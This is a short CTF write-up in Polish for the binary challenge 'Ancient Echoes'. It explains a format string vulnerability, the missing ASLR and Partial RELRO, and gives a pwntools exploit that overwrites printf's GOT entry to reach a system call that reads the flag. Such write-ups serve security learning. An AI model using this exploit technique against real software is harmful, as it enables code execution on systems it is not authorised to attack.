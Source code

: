 # Ancient Echoes - writeup
## Overview
![](Pasted image 20241125181735.png)
\
po otworzeniu pliku w idzie jesteśmy od razu zobaczyć, podatność jaką jest format string vulnerability.\

![](Pasted image 20241125182114.png)
do tego nie ma aslr, więc kod będzie zawsze na takim samym adresie. Relro jest ustawione jako Partial,  więc będziemy w stanie nadpisać got. \
![](Pasted image 20241125183541.png)
\
możemy też znaleźć, że istnieje nigdzie nie wykorzystywana funkcja wild_magic, która wywołuje system z podaną komendą. 
## Exploitacja
skoro mamy dwukrotnie funkcje printf dzięki której jesteśmy w stanie nadpisać dane w goty, to musimy stworzyć taki payload, który jednocześnie nadpisze addres printf w goty do funkcji wykonującej system i odczyta flage z serwera.\
Zadziała to ponieważ argumentem funkcji system stanie się wtedy nasz payload.
kod:
```python
io = process("./ancient_echoes")

printf_got = 0x404038
admin_debug = 0x40121D

writes = {printf_got: admin_debug}

# payload = b"/bin/bash &&    "
payload = b"cat flag.txt && "
payload += fmtstr.fmtstr_payload(8, writes, numbwritten=len(payload), write_size="byte")

io.sendafter(b'!', payload)
io.interactive()
```
